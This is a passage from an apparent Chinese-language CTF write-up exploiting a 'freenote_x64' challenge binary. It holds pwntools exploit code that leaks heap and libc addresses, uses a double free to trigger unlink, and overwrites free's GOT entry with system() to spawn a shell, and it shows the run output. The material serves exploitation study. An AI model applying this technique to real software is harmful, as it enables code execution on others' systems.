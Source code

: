 ```
new_note("D"*notelen)
delete_note(2)
delete_note(0)  

new_note("AAAAAAAA")
list_note()
p.recvuntil("0. AAAAAAAA")
leak = p.recvuntil("\n")    

print leak[0:-1].encode('hex')
leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leakheapaddr) 

delete_note(0)
delete_note(1)
delete_note(3)  

notelen = 0x80  

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)   

delete_note(2)
delete_note(1)
delete_note(0)
```
通过泄露的libc地址我们可以计算出system()函数和"/bin/sh"字符串在内存中的地址，通过泄露的堆的地址我们能得到note table的地址。然后我们构造一个假的note，利用使用double free的漏洞触发unlink，将note0的位置指向note table的地址。随后我们就可以通过编辑note0来编辑note table了。通过编辑note table我们把note0指向free()函数在got表中的地址，把note1指向"/bin/sh"在内存中的地址。然后我们编辑note0把free()函数在got表中的地址改为system()的地址。最后我们执行delete note1操作。因为我们把note1的地址指向了"/bin/sh"，所以正常情况下程序会执行free("/bin/sh")，但别忘了我们修改了got表中free的地址，所以程序会执行system("/bin/sh")，最终达到了我们的目的：  
```
fd = leakheapaddr - 0x1808 #notetable
bk = fd + 0x8   

payload  = ""
payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)  

new_note(payload)   

delete_note(1)  

free_got = 0x602018 

payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
payload2 += "A"* (notelen*3-len(payload2))  

edit_note(0, payload2)
edit_note(0, p64(system_sh_addr))   

delete_note(1)  

p.interactive()
```
执行exp的结果如下：  
```
$ python exp9.py 
[+] Started program './freenote_x64'
b8a75eb2b57f
0x7fb5b25ea7b8
system_sh_addr: 0x7fb5b2278310
```